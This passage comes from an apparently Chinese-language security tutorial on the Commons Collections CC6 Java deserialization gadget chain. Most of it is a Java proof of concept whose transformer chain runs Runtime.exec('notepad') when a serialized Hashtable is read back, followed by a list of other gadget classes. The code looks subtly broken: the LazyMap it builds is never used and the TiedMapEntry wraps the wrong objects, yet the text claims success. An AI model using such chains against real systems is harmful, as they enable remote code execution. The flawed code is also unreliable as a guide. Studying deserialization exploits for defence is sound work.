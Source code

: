 把Hashtable形成的对象序列化进去，那么当在反序列化时，要去调用Hashtable的readObject，再间接去调用hashCode()里的getValue()再去调用LazyMap中的transform()方法,而transform()方法里是我们构造的ChainedTransformer

```java
public class TestTest {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        disableWarning();
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"notepad"})};

        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry entry = new TiedMapEntry(innerMap, transformerChain);
        Hashtable<Object, Object> hashtable = new Hashtable<>();
        hashtable.put("pwn","dd");

        Field table = hashtable.getClass().getDeclaredField("table");
        table.setAccessible(true);
        Object[] hasharray = (Object[]) table.get(hashtable);

        for (Object obj: hasharray){
            if (obj != null){
                Field entykey = obj.getClass().getDeclaredField("key");
                entykey.setAccessible(true);
                entykey.set(obj,entry);
            }
        }
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("CC6.ser"));
        objectOutputStream.writeObject(hashtable);
        objectOutputStream.close();

        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("CC6.ser"));
        ois.readObject();
        ois.close();
    }
```

成功弹出记事本

![image-20221130152623009](https://static.sechelper.com/img/2022/11/30/b34a2b07c66d2e11c1a01deaa730237b.png)

还有很多其他可以利用的类和利用链：

BadAttributeValueExpException的readObject方法

​		toString方法与php中的`__toString`方法类似，在进行字符串拼接或者手动把某个类转换为字符串的时候会被调用

AnnotationInvocationHandler的invoke方法中有get的调用再配合动态代理

**TransformedMap**利用链，另一条POP链
